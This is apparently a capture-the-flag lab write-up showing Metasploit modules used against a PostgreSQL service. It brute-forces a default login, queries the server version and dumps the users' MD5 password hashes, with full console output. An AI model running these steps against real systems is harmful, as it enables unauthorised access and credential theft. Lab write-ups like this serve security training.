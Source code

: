 
## ⚙️ Shell Access with Metasploit

- This is not a hard part since you have walkthrough in the challenge. First module that we need is `auxiliary/scanner/postgres/postgres_login`

  ```
  msfconsole
  search postgres

  msf6 auxiliary(scanner/postgres/postgres_login) > set rhosts 10.10.112.12
  rhosts => 10.10.112.12
  msf6 auxiliary(scanner/postgres/postgres_login) > run
  [!] No active DB -- Credential data will not be saved!
  [SNIP!]
  [+] 10.10.112.12:5432 - Login Successful: postgres:password@template1
  [SNIP1]
  ```
  
- Now we have credentials, another module will check for DBMS version. `auxiliary/admin/postgres/postgres_sql`

  ```
  msf6 auxiliary(admin/postgres/postgres_sql) > set rhosts 10.10.112.12
  rhosts => 10.10.112.12
  msf6 auxiliary(admin/postgres/postgres_sql) > set PASSWORD password
  PASSWORD => password
  msf6 auxiliary(admin/postgres/postgres_sql) > run
  [*] Running module against 10.10.112.12
  Query Text: 'select version()'
  ==============================
  
      version
      -------
      PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-b
      it
  
  [*] Auxiliary module execution completed
  ```
  
- Now hash dumping. `auxiliary/scanner/postgres/postgres_hashdump`

  ```
  msf6 auxiliary(scanner/postgres/postgres_hashdump) > run
  [+] Query appears to have run successfully
  [+] Postgres Server Hashes
  ======================
  
   Username   Hash
   --------   ----
   darkstart  md58842b99375db43e9fdf238753623a27d
   poster     md578fb805c7412ae597b399844a54cce0a
   postgres   md532e12f215ba27cb750c9e093ce4b5127
   sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
   ti         md57af9ac4c593e9e4f275576e13f935579
   tryhackme  md503aab1165001c8f8ccae31a8824efddc
  
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
